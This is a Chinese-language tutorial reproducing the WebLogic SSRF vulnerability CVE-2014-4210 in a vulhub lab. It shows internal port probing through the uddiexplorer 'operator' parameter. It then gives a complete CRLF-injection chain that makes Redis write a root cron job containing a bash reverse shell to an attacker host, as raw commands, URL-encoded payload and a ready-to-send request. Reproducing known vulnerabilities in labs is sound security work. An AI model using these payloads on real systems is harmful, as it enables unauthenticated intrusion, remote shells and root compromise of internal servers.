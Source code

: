 ```yaml
---
Title: Weblogic SSRF漏洞 CVE-2014-4210
---
```


# Weblogic SSRF漏洞 CVE-2014-4210

## 漏洞描述

Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件，此漏洞可通过HTTP协议利用，未经身份验证的远程攻击者可利用此漏洞影响受影响组件的机密性

## 漏洞影响

<a-checkbox checked>Oracle WebLogic Server 10.0.2.0</a-checkbox></br>

<a-checkbox checked>Oracle WebLogic Server 10.3.6.0</a-checkbox></br>

## 环境搭建

```plain
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/ssrd
docker-compose up -d
```

访问 `http://xxx.xxx.xxx.xxx:7001` 正常即可

![img](../../../.vuepress/public/img/1627122010908-dfbdc992-8a59-4638-b56d-404f0b538c7e.png)

## 漏洞复现

出现漏洞的 URL为 : `http://xxx.xxx.xxx.xxx:7001/uddiexplorer/SearchPublicRegistries.jsp`

![img](../../../.vuepress/public/img/1627122062901-5664349d-68fe-4128-a6d6-ec843fefd82d.png)



使用 payload 进行探测, 将探测的位置写在 operator参数中

<a-checkbox checked>注意需要知道内网 IP</a-checkbox></br>

```plain
/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://xxx.xxx.xxx.xxx:7001
```

通过查看报错内容来进行判断

![img](../../../.vuepress/public/img/1627122076972-b0156bf5-41a6-4b62-9cc3-2d526f092083.png)

存在的报错内容如图，关键字为 `404` ,例如把 `operator` 参数改成 `http://xxx.xxx.xxx.xxx:7000` 这样不存在的则报错内容如下图

![img](../../../.vuepress/public/img/1627122081877-63d635ee-e032-4d56-a627-27606bdf334f.png)



通过这样的方法就可以探测内网的开放端口情况，例如内网中有一台主机 `IP：172.19.0.2` 开启`6379端口的redis服务`

![img](../../../.vuepress/public/img/1627122086475-d48ce9eb-a76c-4daa-94b1-fce15687b76e.png)



如果访问的非http协议，则会返回`did not have a valid SOAP content-type`，这样通过错误的不同，即可探测内网状态。

Weblogic的SSRF有一个比较大的特点，其虽然是一个“GET”请求，但是我们可以通过传入`%0a%0d`来注入换行符，而某些服务（如redis）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。

发送三条redis命令，将弹shell脚本写入`/etc/crontab` 中：

```shell
set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```

接着再将请求进行 `url编码`

<a-checkbox checked>注意，换行符是“\r\n”，也就是“%0D%0A”</a-checkbox></br>

```shell
test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fxxx.xxx.xxx.xxx%2F9999%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

发送payload

```shell
/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.19.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.19.0.3%2F9999%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

发送后监听 `172.19.0.3 9999端口`等待反弹shell

![img](../../../.vuepress/public/img/1627122093990-acdd4a50-b1ff-493f-8c86-dcd2e1445641.png)